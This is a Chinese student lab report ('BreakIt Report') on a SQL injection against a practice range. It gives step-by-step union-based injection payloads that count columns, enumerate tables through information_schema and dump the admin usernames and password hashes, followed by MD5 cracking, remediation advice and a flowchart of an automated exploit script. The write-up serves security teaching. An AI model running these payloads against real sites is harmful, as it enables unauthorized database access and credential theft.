

- [BreakIt Report](#breakit-report)
  - [成员 & 分工](#成员--分工)
  - [破解过程](#破解过程)
    - [sql 注入漏洞介绍](#sql-注入漏洞介绍)
    - [sql 注入漏洞攻击过程](#sql-注入漏洞攻击过程)
    - [sql 注入漏洞的修复方法](#sql-注入漏洞的修复方法)
  - [exp.py 编写](#exppy-编写)
# BreakIt Report
## 成员 & 分工
* 李雅萱
  * 在靶场环境对各类漏洞进行探索。
  * 成功发现、破解 `sql` 漏洞。
  * 对 `sql` 漏洞编写自动化破解脚本，见 [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) [requirements.txt](https://github.com/Taaami/2022-summer-project/blob/main/requirements.txt) 。
  * 录制演示视频，整理上传至某站 [演示视频](https://www.bilibili.com/video/BV16a411f7rV) 。
* 欧阳景宇
  * 在靶场环境对各类漏洞进行探索，主要针对 **CSRF**、 **后台弱口令**、 **目录遍历** 和 **sql注入** 四种类型的漏洞进行漏洞攻击。
  * 检测是否存在漏洞并分析漏洞攻击失败的原因，分析可能采用的漏洞修复方法。
  * 成功发现、破解 `sql` 漏洞，并提出修复思路。
> 与 `sql` 漏洞无关的工作详见个人 `README`
## 破解过程
### sql 注入漏洞介绍
> 攻击者通过控制由 Web 前端传入后端的参数来构造 sql 语句，被程序代入数据库中查询信息，从而实现对数据库的任意操作。
### sql 注入漏洞攻击过程
- 当输入一个 `'` 后页面无回显，说明执行了 `sql` 查询语句。

  
- 发现通过构造 `url` 可以实现数据库的查询，接下来判断它的字段数。
  ```sql
  1' and 1=1 order by 2 --+
  1' and 1=1 order by 3 --+
  1' and 1=1 order by 4 --+
  1' and 1=1 order by 5 --+
  ```
- 当输入到了 `5` 以后，页面没有正常显示查询结果，所以有 `4` 个字段。
  
  
- 接下来直接查看回显点。
  ```sql
  1' union select 1,2,3,4 --+
  ```
  
- 查看所有表名，可以看到有三个表名分别为 `admin,comment,users` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
  ```
  
- 接下来查看`admin`表的所有字段，可以看到有三个字段分别为 `admin_id,admin_name,admin_pass` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='admin' --+
  ```
  
- 然后查看字段内容，`admin_pass` 应该为管理员密码。
  ```sql
  1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin--+
  ```
  
- 看到这串字符怀疑是 `md5` 加密，解密得到密码。
  
  
### sql 注入漏洞的修复方法
> 本次实践后续会修复 `sql` 注入漏洞。以下是个人对 `sql` 注入漏洞修复方法的总结。
1. 对用户输入进行检查，转换或者过滤单引号、双引号、冒号等字符，对于 `select、update` 等字符进行过滤，确保数据库的安全性。
2. 用户输入的参数不直接写入查询语句中，可以采用参数传值的方式传递变量，避免 `sql` 注入。
3. 对用户进行分级管理，严格限制用户权限，对于普通用户值开放数据库查询的权限，禁止建立、修改、删除数据库等权限。
## [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 编写
> [exp.py](https://github.com/Taaami/2022-summer-project/blob/main/exp.py) 思路与手动破解相同，但可适应不同字段数、回显点等情况下的注入。
- 根据单引号判断出存在 `sql注入` 漏洞后，脚本思路如下：
    ```mermaid
    graph TD
    A[开始注入]-->B(判断字段数)
    B-->C(查看回显点)
    C-->D(在回显处爆表名)
    D-->E(在回显处爆列名)
    E-->F(输出admin_id:admin_name:admin_pass)
    F-->G(判断加密算法,解密得到密码)
    ```
- 脚本输出结果
  
  
**脚本有详细注释，此处不再赘述。**